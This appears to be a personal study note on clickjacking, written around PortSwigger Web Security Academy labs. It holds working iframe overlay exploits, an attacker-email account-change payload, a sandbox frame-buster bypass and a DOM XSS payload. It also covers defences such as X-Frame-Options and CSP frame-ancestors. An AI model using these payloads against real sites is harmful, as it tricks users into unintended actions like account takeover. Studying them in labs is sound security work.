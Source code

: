 
- Clickjacking is an interface-based attack in which a user is tricked into clicking on actionable content on a hidden website by clicking on some other content in a *decoy website*.

## Example

A web user accesses a decoy website (perhaps this is a link provided by an email) and clicks on a button to win a prize. Unknowingly, they have been deceived by an attacker into pressing an alternative hidden button and this results in the payment of an account on another site. This is an example of a clickjacking attack. The technique depends upon the incorporation of an invisible, actionable web page (or multiple pages) containing a button or hidden link, say, within an iframe. The iframe is overlaid on top of the user's anticipated decoy web page content, but it's made almost invisible. Hence, the victim will see the decoy web page, but it'll click on the target website (iframe). 

```html
<head> 
<style> 
#target_website { 
position:relative; 
width:128px; 
height:128px; 
opacity:0.00001; 
z-index:2; 
} 

#decoy_website { 
position:absolute; 
width:300px; 
height:400px; 
z-index:1; 
} 
</style> 
</head> 
<body> 
<div id="decoy_website"> ...decoy web content here... </div> 
<iframe id="target_website" src="https://vulnerable-website.com"> </iframe> </body>
```


## Labs

###### Lab: Basic clickjacking with CSRF token protection

```html
<style>
    iframe {
        position:relative;
        width: 1920px;
        height: 780px;
        opacity: 0.000001;
        z-index: 2;
    }
    div {
font-size: 20px;
        position:absolute;
        top:535px;
        left:445px;
        z-index: 1;
    }
</style>
<div>click me</div>
<iframe src="https://0a99002403a82a3d81c7d43500da00b0.web-security-academy.net/my-account"></iframe>
```

###### Lab: Clickjacking with form input data prefilled from a URL parameter

```html
<style>
    iframe {
        position:relative;
        width: 1920px;
        height: 1080px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
font-size: 25px;
        position:absolute;
        top: 484px;
        left: 430px;
        z-index: 1;
    }
</style>
<div>click me</div>
<iframe src="https://0a5100a403a6d62180838f4b006d00fd.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

#### Frame busting scripts

Clickjacking attacks are possible whenever websites can be framed (displaying one website within another website’s frame, using HTML frames or iframes, that are inline frames). Therefore, preventative techniques are based upon restricting the framing capability for websites. A common client-side protection enacted through the web browser is to use **frame busting** or **frame breaking scripts**.
Scripts are often crafted so that they perform some or all of the following behaviors:

- check and enforce that the current application window is the main or top window
- make all frames visible
- prevent clicking on invisible frames
- intercept and flag potential clickjacking attacks to the user

Frame busting techniques are often browser and platform specific and because of the flexibility of HTML they can usually be circumvented by attackers. As frame busters are JavaScript then the browser's security settings may prevent their operation or indeed the browser might not even support JavaScript. An effective attacker workaround against frame busters is to use the HTML5 iframe `sandbox` attribute. When this is set with the `allow-forms` or `allow-scripts` values (and the `allow-top-navigation` value is omitted) then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window:

```html
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```

###### Lab: Clickjacking with a frame buster script

```html
<style>
    iframe {
        position:relative;
        width: 1920px;
        height: 1080px;
        opacity: 0.5;
        z-index: 0.0001;
    }
    div {
font-size: 25px;
        position:absolute;
        top: 484px;
        left: 430px;
        z-index: 1;
    }
</style>
<div>click me</div>
<iframe src="https://0aa500aa0337f271826c43d7000200de.web-security-academy.net/my-account?email=hacky@yahoo.it" sandbox="allow-forms"></iframe>
```

### Combining clickjacking with a DOM XSS attack

The true potency of clickjacking is revealed when it is used as a carrier for another attack such as a **DOM XSS attack**. After the attacker has identified the XSS exploit, then it can be combined with the iframe target URL so that the user clicks on the button or link and consequently executes the DOM XSS attack.

###### Lab: Exploiting clickjacking vulnerability to trigger DOM-based XSS

```html
<style>
    iframe {
        position:relative;
        width: 1920px;
        height: 1080px;
        opacity: 0.5;
        z-index: 2;
    }
    div {
	    font-size: 25px;
        position:absolute;
        top: 835px;
        left: 430px;
        z-index: 1;
    }
</style>
<div>click me</div>
<iframe src="https://0a1a00fa04b6229380bf675000e1007c.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&subject=sub&message=mexx&email=ema@gmail.com"></iframe>
```

###### Lab: Multistep clickjacking

```html
<style>
    iframe {
        position:relative;
        width: 1920px;
        height: 1080px;
        opacity: 0.0001;
        z-index: 2;
    }
    #click1 {
font-size: 25px;
        position:absolute;
        top: 530px;
        left: 430px;
        z-index: 1;
    }

#click2 {
font-size: 25px;
        position:absolute;
        top: 327px;
        left: 600px;
        z-index: 1;
    }
</style>
<div id="click1">Click me first</div>
<div id="click2">Click me next</div>
<iframe src="https://0ac400e303e1a1518085fd370058003c.web-security-academy.net/my-account"></iframe>
```

## Prevention

- Frame busting (but it can be bypassed!)
- Add headers to disable malicious framing: the header **X-Frame-Options** provides the website owner with control over the use of iframes or objects so that inclusion of a web page within a frame can be prohibited with the `deny` directive:

	`X-Frame-Options: deny`

	Alternatively, framing can be restricted to the same origin as the website using the `sameorigin` directive:

	`X-Frame-Options: sameorigin`

	or to a named website using the `allow-from` directive:

	`X-Frame-Options: allow-from https://normal-website.com`

- Use CSP to disable framing. The CSP provides the client browser with information about permitted sources of web resources that the browser can apply to the detection and interception of malicious behaviors.

	The recommended clickjacking protection is to incorporate the `frame-ancestors` directive in the application's Content Security Policy. The `frame-ancestors 'none'` directive is similar in behavior to the X-Frame-Options `deny` directive. The `frame-ancestors 'self'` directive is broadly equivalent to the X-Frame-Options `sameorigin` directive.
	Alternatively, framing can be restricted to named sites:

	`Content-Security-Policy: frame-ancestors normal-website.com;`

- Use SameSite flag for cookies


## Clickjacking vs [CSRF](CSRF%20(Cross-Site%20Request%20Forgery).md)

This attack differs from a CSRF attack in that the user is required to perform an action such as a button click whereas a CSRF attack depends upon forging an entire request without the user's knowledge or input.
